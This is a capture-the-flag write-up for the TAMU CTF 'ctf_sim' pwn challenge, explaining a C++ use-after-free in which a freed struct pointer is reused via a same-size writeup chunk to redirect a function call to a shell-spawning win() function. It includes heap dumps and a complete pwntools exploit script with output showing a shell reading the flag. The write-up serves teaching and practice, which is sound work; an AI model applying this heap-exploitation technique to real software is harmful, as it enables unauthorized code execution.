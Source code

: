 ```yaml
---
layout: post
title:  "[TAMU ctf] ctf_sim"
date:   "2022-04-19"
categories: Pwn
author: Eurus
---
```


This is the output of checksec over the ELF of this challenge.

```
RELRO:    Partial RELRO
Stack:    No canary found
NX:       NX enabled
PIE:      No PIE (0x400000)
```

This is a c++ challenges. There are a use after free bug in this challenge.

This program is a CTF simulator, you can download challenges, solve a challenge and submit  writeup for the challenges. 
The challenges are all struct that contain a function. Here an example of one challenge struct:

```c
struct pwn : challenges {
    void solve() override {
        cout << "You solved a pwn challenge by keysmashing and being lucky!" << endl;
        
    }
};
```

When we download a challenge the prigram ask us where to save it

```c

challenges* downloaded [4];

void downloadChallenge() {
    int choice;
    int index;

    while (true) {
        cout << "DOWNLOAD A CHALLENGE" << endl;
        cout << "Choose a category" << endl;
        ...
        cout << "3. Pwn" << endl;
	...
        cout << "> ";
        cin >> choice;

        cout << "Choose an index to save your challenge to (0-3)" << endl;
        cout << "> ";
        cin >> index;
        
        if ((choice >= 1 && choice <=5) && (index >= 0 && index <= 3)) {
            break;
        }
        else {
            cout << "Invalid category or index" << endl;
        }
    }

    if (choice == 1) ...
    
    else if (choice == 3) {
        downloaded[index] = new pwn;
    }
    ...

}
```

When we choose to dwnload a challenge a new struct is allocated and then its pointer is stored inside the array challenges* downloaded at the index
that we choose.

```c
void solveChallenge() {
    int index;
    while (true) {
        cout << "SOLVE A CHALLENGE" << endl;
        cout << "Choose one of your downloaded challenges (0-3)" << endl;
        cout << "> ";
        cin >> index;

        if (index >= 0 && index <= 3) {
            break;
        }
    }

    downloaded[index] -> solve();
    delete downloaded[index];

}
```
But when we solve a challenge we execute the function solve of the struct than we free the allocate area of the struct, but the pointer remain into the downloaded[index] array.

In this case this allow us to reuse the same chunk by requesting a chunk of the same size and by how the malloc work it will return the same chunk of the struct allocated before. 
This because since the chunk is of size 0x20 it remain into the fastbins of the heap and when we request a chunk of the same size it will return the same chunk insted to allocate another.

In the binary is present also a win function that will spawn a shell for us. 

```c
void win() {
    system("/bin/sh");
}

void* win_addr = (void*) &win;
```

We can force the binary to call this function by submitting a writeup of size 0x20 after we download and solve a challenge, and as text of the writeup we need to insert a fake structure this because 
in the downloaded[index] there is the pointer to the chunk of this writeup and if we place a pointer to the win function in the first 8 byte of the writeup when the program will call 
```downloaded[index] -> solve();``` it will execute the function that is pointed by the pointer in the first 8 byte of the chunk.

```text
0x4176c0	0x0000000000000000	0x0000000000000021	........!.......
0x4176d0	0x0000000000403d08	0x0000000000000000	.=@.............
0x4176e0	0x0000000000000000	0x000000000000e921	........!.......	 <-- Top chunk
```
This is the chunk and we can see he pointer to solve function 0x0000000000403d08, after we solve this challenge the heap will be arranged like this

```text
0x4176c0	0x0000000000000000	0x0000000000000021	........!.......
0x4176d0	0x0000000000000417	0xfe9219cb7d3538b5	.........85}....	 <-- tcachebins[0x20][0/1]
0x4176e0	0x0000000000000000	0x000000000000e921	........!.......	 <-- Top chunk
```

and when we want to submit a writeup the heap will be like this

```text
SUBMIT A WRITEUP
How long is your writeup?
> 24
Enter your writeup
> AAAAAAAA

0x4176c0	0x0000000000000000	0x0000000000000021	........!.......
0x4176d0	0x4141414141414141	0x000000000000000a	AAAAAAAA........
0x4176e0	0x0000000000000000	0x000000000000e921	........!.......
```
so if we insert the win function pointer in the first 8 bytes of a writeup of size 0x20 when we solve again the challenge will execute the win function this because the pointer to
this chunk in the ```challenges* downloaded [4];``` array was never nulled.

This if the final solve script.

```python
from pwn import *
from pprint import pprint

context.binary = elf = ELF('./ctf_sim')
p = remote("tamuctf.com", 443, ssl=True, sni="ctf-sim")

#p = elf.process()
#gdb.attach(p)

def download():
	p.sendlineafter(b'> ', b'1')
	p.sendlineafter(b'> ', b'3')
	p.sendlineafter(b'> ', b'0')

def solve():
	p.sendlineafter(b'> ', b'2')
	p.sendlineafter(b'> ', b'0')

def writeup():
	p.sendlineafter(b'> ', b'3')
	p.sendlineafter(b'> ', b'24')
	chunk_fake = p64(elf.sym.win_addr)+p64(0)
	p.sendlineafter(b'> ', chunk_fake)	



download()
solve()
writeup()
solve()

p.interactive()
```

and this is the output

```text
eurus@node-01-00:~/Scaricati/ctf_sim$ python3 solver-template.py 
[*] '/home/eurus/Scaricati/ctf_sim/ctf_sim'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
[+] Opening connection to tamuctf.com on port 443: Done
[*] Switching to interactive mode
$ ls
ctf_sim
docker_entrypoint.sh
flag.txt
$ cat flag.txt
gigem{h34pl355_1n_53477l3}$  
```






